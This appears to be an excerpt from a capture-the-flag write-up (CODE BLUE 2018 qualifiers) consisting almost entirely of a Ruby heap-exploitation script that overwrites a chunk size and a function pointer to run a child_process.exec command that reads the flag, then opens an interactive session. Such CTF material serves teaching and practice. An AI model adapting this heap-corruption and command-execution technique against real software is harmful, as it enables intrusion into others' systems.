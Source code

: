 ```ruby  
 cmd = "require('child_process').exec('cat flag',(a,b,c)=>console.log(b+c))\0"

 puts "[*] prepare"  
 add_letter(0xc, "A" * 0xb, "1" * 0x1f + "\n", 1)  
 add_letter(0xc, "B" * 0xb, "2" * 0x1f + "\n", 1)  
 delete_letter(0);

 puts "[*] overwrite chunksize"  
 add_letter(0xc, "C" * 0xb, "3" * 0x20 + "\x53", 1)

 puts "[*] overwrite existing letter"  
 payload = ""  
 payload << "A" * 0x10  
 payload << [cmd.length].pack("L")  # length  
 payload << [0xff8].pack("L")  # buf (address of "_do_post_letters()"")  
 payload << [5].pack("L")  # func (__stdio_read)  
 payload << "A" * 0x1f  
 add_letter(payload.length + 1, payload, "AAAA\n", 1)

 puts "[*] call __stdio_read"  
 tube.recv_until_prompt  
 tube.sendline("5")

 puts "[*] send command to execute"  
 tube.send(cmd)

 tube.interactive  
}  
```  

Original writeup (https://github.com/Charo-
IT/CTF/blob/master/2018/codeblue_quals/writeup.md#secret-mailer-
service-20-pwn).